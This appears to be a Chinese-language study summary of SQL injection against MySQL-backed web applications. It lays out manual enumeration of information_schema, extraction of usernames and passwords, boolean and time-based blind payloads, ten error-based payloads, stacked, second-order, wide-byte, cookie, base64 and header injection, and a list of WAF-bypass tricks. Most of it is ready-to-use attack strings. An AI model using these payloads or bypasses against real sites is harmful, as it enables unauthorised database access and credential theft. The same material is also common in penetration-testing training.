 # SQL 注入总结

## 0x01 什么是SQL注入
sql注入就是一种通过操作输入来修改后台操作语句达到执行恶意sql语句来进行攻击的技术。

## 0x02 SQL注入的分类
按变量类型分：数字型、字符型

按HTTP提交方式分：GET注入、POST注入、Cookie注入

按注入方式分
    报错注入
    盲注：布尔盲注、时间盲注
    union注入

编码问题：宽字节注入

## 0x03识别后台数据库
根据操作系统平台
sql server：Windows（IIS)
MySQL：Apache

根据web语言
Microsoft SQL Server：ASP和.Net
MySQL：PHP
Oracle/MySQL：java

## 0x04 MySQL 5.0以上和MySQL 5.0以下版本的区别
MySQL 5.0以上版本存在一个存储着数据库信息的信息数据库--INFORMATION_SCHEMA ，其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。 而5.0以下没有。

information_schema
系统数据库，记录当前数据库的数据库，表，列，用户权限等信息

SCHEMATA
储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等

TABLES
储存mysql中的表信息，包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等

COLUMNS
储存mysql中表的列信息，包括这个表的所有列以及每个列的信息，该列是表中的第几列，列的数据类型，列的编码类型，列的权限，列的注释等

## 0x05 基本手工注入流程
要从select语句中获得有用的信息，必须确定该数据库中的字段数和那个字段能够输出，这是前提。

1. MySQL >= 5.0
（1）获取字段数
```sql
order by n  /*通过不断尝试改变n的值来观察页面反应确定字段数*/
```
（2）获取系统数据库名
在MySQL >5.0中，数据库名存放在information_schema数据库下schemata表schema_name字段中
```sql
select null,null,schema_name from information_schema.schemata
```
（3）获取当前数据库名
```sql
select null,null,...,database()
```
（4）获取数据库中的表
select null,null,...,group_concat(table_name) from information_schema.tables where table_schema=database()
或

select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1
（5）获取表中的字段
这里假设已经获取到表名为user

select null,null,...,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'
（6）获取各个字段值
这里假设已经获取到表名为user，且字段为username和password

select null,group_concat(username,password) from users
2.MySQL < 5.0
MySQL < 5.0 没有信息数据库information_schema，所以只能手工枚举爆破（二分法思想）。

该方式通常用于盲注。

相关函数
length(str) ：返回字符串str的长度

substr(str, pos, len) ：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始

mid(str,pos,len) ：跟上面的一样，截取字符串

ascii(str) ：返回字符串str的最左面字符的ASCII代码值

ord(str) ：将字符或布尔类型转成ascll码

if(a,b,c) ：a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

（1）基于布尔的盲注
and ascii(substr((select database()),1,1))>64 /*判断数据库名的第一个字符的ascii值是否大于64*/
（2）基于时间的盲注
id=1 union select if(SUBSTRING(user(),1,4)='root',sleep(4),1),null,null /*提取用户名前四个字符做判断，正确就延迟4秒，错误返回1*/
0x06 常用注入方式
注释符：

#
-- (有空格)或--+
/**/
内联注释：

/*！...*/
union注入
id =-1 union select 1,2,3   /*获取字段*/
Boolean注入
id=1' substr(database(),1,1)='t'--+     /*判断数据名长度*/
报错注入
1 floor()和rand()
union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a       /*利用错误信息得到当前数据库名*/
2 extractvalue()
id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
3 updatexml()
id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
4 geometrycollection()
id=1 and geometrycollection((select * from(select * from(select user())a)b))
5 multipoint()
id=1 and multipoint((select * from(select * from(select user())a)b))
6 polygon()
id=1 and polygon((select * from(select * from(select user())a)b))
7 multipolygon()
id=1 and multipolygon((select * from(select * from(select user())a)b))
8 linestring()
id=1 and linestring((select * from(select * from(select user())a)b))
9 multilinestring()
id=1 and multilinestring((select * from(select * from(select user())a)b))
10 exp()
id=1 and exp(~(select * from(select user())a))
时间注入
id = 1 and if(length(database())>1,sleep(5),1)
堆叠查询注入
id = 1';select if(sub(user(),1,1)='r',sleep(3),1)%23
二次注入
假如在如下场景中，我们浏览一些网站的时候，可以现在注册见页面注册username=test'，接下来访问xxx.php?username=test'，页面返回id=22；

接下来再次发起请求xxx.php?id=22，这时候就有可能发生sql注入，比如页面会返回MySQL的错误。

访问xxx.php?id=test' union select 1,user(),3%23，获得新的id=40，得到user()的结果，利用这种注入方式会得到数据库中的值。

宽字节注入
利用条件：
[ ] 查询参数是被单引号包围的，传入的单引号又被转义符()转义，如在后台数据库中对接受的参数使用addslashes()或其过滤函数
[ ] 数据库的编码为GBK
利用方式
id = -1%DF' union select 1,user(),3,%23
在上述条件下，单引号'被转义为%5c，所以就构成了%df%5c，而在GBK编码方式下，%df%5c是一个繁体字“連”，所以单引号成功逃逸。

Cookie注入
当发现在url中没有请求参数，单数却能得到结果的时候，可以看看请求参数是不是在cookie中，然后利用常规注入方式在cookie中注入测试即可，只是注入的位置在cookie中，与url中的注入没有区别。

Cookie: id = 1 and 1=1
base64注入
对参数进行base64编码，再发送请求。

说明：id=1'，1的base64编码为MSc=，而=的url编码为%3d，所以得到以下结果：

id=MSc%3d
XFF注入
XFF(X-Forward-For)，简称XFF头，它代表客户端真实的ip地址

X-Forward-For：127.0.0.1' select 1,2,user()
0x07 SQL注入绕过技术
大小写绕过

双写绕过

编码绕过（url全编码、十六进制）

内联注释绕过

关键字替换

逗号绕过

substr、mid()函数中可以利用from to来摆脱对逗号的利用；

limit中可以利用offset来摆脱对逗号的利用

比较符号( >、< )绕过（greatest、between and)

逻辑符号的替换（and=&& or=|| xor=| not=!）

空格绕过（用括号，+等绕过）

等价函数绕过

hex()、bin()=ascii()
concat_ws()=group_concat()
mid()、substr()=substring()
http参数污染（id=1 union select+1,2,3+from+users+where+id=1–变为id=1 union select+1&id=2,3+from+users+where+id=1–）

缓冲区溢出绕过 (id=1 and (select 1)=(Select 0xAAAAAAAAAAAAAAAAAAAAA)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 ,27,28,29,30,31,32,33,34,35,36–+ 其中0xAAAAAAAAAAAAAAAAAAAAA这里A越多越好。。一般会存在临界值，其实这种方法还对后缀名的绕过也有用)
